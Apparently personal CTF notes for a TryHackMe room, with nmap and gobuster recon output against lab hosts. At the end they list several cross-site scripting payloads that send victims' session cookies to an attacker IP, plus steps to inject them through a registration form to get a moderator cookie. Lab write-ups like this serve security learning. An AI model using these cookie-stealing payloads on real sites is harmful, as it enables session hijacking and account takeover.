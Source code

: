 <code>
https://tryhackme.com/r/room/whatsyourname

### Enumeration
                                                                                                                 
┌──(kali㉿kali)-[~]
└─$ nmap -sV -A worldwap.thm     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-07 04:46 EST
Nmap scan report for worldwap.thm (10.10.133.78)
Host is up (0.036s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 19:17:91:7b:c7:75:e2:35:74:31:c9:34:8d:5f:c0:84 (RSA)
|   256 e7:3c:be:15:d0:ab:cc:10:93:de:1d:e9:bf:46:24:52 (ECDSA)
|_  256 11:1a:26:ec:d1:eb:56:dd:d4:b7:11:41:87:5f:b6:26 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Welcome
|_Requested resource was /public/html/
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.78 seconds

┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://worldwap.thm -x php,txt,html 
/.php                 (Status: 403) [Size: 277]
/index.php            (Status: 302) [Size: 0] [--> /public/html/]
/.html                (Status: 403) [Size: 277]
/public               (Status: 301) [Size: 313] [--> http://worldwap.thm/public/]
/api                  (Status: 301) [Size: 310] [--> http://worldwap.thm/api/]
/javascript           (Status: 301) [Size: 317] [--> http://worldwap.thm/javascript/]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://worldwap.thm/phpmyadmin/]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]

┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://login.worldwap.thm -x php,txt,html 

/.php                 (Status: 403) [Size: 283]
/.html                (Status: 403) [Size: 283]
/index.php            (Status: 200) [Size: 70]
/login.php            (Status: 200) [Size: 3108]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/clear.php            (Status: 200) [Size: 4]
/assets               (Status: 301) [Size: 325] [--> http://login.worldwap.thm/assets/]
/chat.php             (Status: 302) [Size: 0] [--> login.php]
/db.php               (Status: 200) [Size: 0]
/javascript           (Status: 301) [Size: 329] [--> http://login.worldwap.thm/javascript/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/setup.php            (Status: 200) [Size: 149]
/block.php            (Status: 200) [Size: 15]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 329] [--> http://login.worldwap.thm/phpmyadmin/]
/.html                (Status: 403) [Size: 283]
/.php                 (Status: 403) [Size: 283]
/change_password.php  (Status: 302) [Size: 4] [--> login.php]
/server-status        (Status: 403) [Size: 283]
Progress: 882240 / 882244 (100.00%)


                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://worldwap.thm:8081 -x php,txt,html 

/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/index.php            (Status: 200) [Size: 70]
/login.php            (Status: 200) [Size: 3108]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/clear.php            (Status: 200) [Size: 4]
/assets               (Status: 301) [Size: 320] [--> http://worldwap.thm:8081/assets/]
/chat.php             (Status: 302) [Size: 0] [--> login.php]
/db.php               (Status: 200) [Size: 0]
/javascript           (Status: 301) [Size: 324] [--> http://worldwap.thm:8081/javascript/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/setup.php            (Status: 200) [Size: 149]
/block.php            (Status: 200) [Size: 15]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 324] [--> http://worldwap.thm:8081/phpmyadmin/]
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/change_password.php  (Status: 302) [Size: 4] [--> login.php]
/server-status        (Status: 403) [Size: 279]



<script>fetch('http://10.9.1.66:8000/?cookie=' + btoa(document.cookie));</script>
<script>var i=new Image(); i.src="https//10.9.1.66:8000/?cookie="+btoa(document.cookie);</script>        
<script>var i=new Image; i.src='http://<IP>:<PORT>/?'+document.cookie;</script>
<script>var i=new Image(); i.src="http://10.9.1.159:8000/?cookie="+btoa(document.cookie);</script>      
<script>var i=new Image(); i.src="http://10.9.1.159:8000/?cookieX="+btoa(document.cookie);</script>  

Steal cookie by inserting to registration form.

get moderator cookie.

Admin crendetials found in 

http://login.worldwap.thm:80/admin.py

  
<\code>
